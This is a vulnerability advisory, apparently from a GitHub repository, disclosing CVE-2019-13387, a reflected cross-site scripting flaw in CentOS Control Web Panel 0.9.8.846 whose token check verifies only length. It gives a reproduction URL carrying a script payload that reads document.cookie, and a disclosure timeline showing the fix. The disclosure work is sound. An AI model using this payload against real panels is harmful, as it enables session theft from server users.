

# Information

```
Exploit Title       : CWP (CentOS Control Web Panel) Reflected Cross Site Scripting
Date                : 7 July 2019
Exploit Author      : Pongtorn Angsuchotmetee, Nissana Sirijirakal, Narin Boonwasanarak
Vendor Homepage     : https://control-webpanel.com/
Software Link       : Not available, user panel only available for lastest version
Version             : 0.9.8.846
Tested on           : CentOS 7.6.1810 (Core) FireFox 68.0.1 (64-bit)
CVE-Number          : CVE-2019-13387
```
<br>

# Description:

CWP Version 0.9.8.846 have implemented token in every URL to prevent cross site scripting.
But the aplication checks only length of the token, this allows attacker to follow the token format to bypass XSS protection
Refer to  : CVE-2018-18324

<br>

#  Steps to Reproduce

<b>Example</b> : https://[target.com]:2083/cwp_xxxxxxxxxxxxxxxx/user1/fileManager2.php?frame=3&fm_current_dir=</script><script>alert(document.cookie)</script>

<b>Parameter Name </b>: fm_current_dir
<br>
<b>Attack Pattern for XSS</b> : </script><script>alert(document.cookie)</script>


<kbd></kbd>

<br>

#  Timeline

```
2019-07-07: Discovered the bug
2019-07-07: Reported to vendor
2019-07-07: Vender accepted the vulnerability
2019-07-15: The vulnerability has been fixed
2019-07-23: Published
```
